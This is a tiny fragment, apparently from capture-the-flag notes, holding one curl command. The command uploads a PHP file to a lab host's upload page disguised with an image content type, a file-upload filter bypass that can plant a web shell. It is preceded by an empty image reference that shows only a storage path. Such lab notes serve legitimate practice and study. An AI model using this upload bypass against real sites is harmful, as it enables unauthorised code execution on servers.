 ### CTF

    curl -v -F "Upload=Upload" -F "uploaded=@./test.php;type=image/jpg" http://172.20.10.4/\?page\=upload
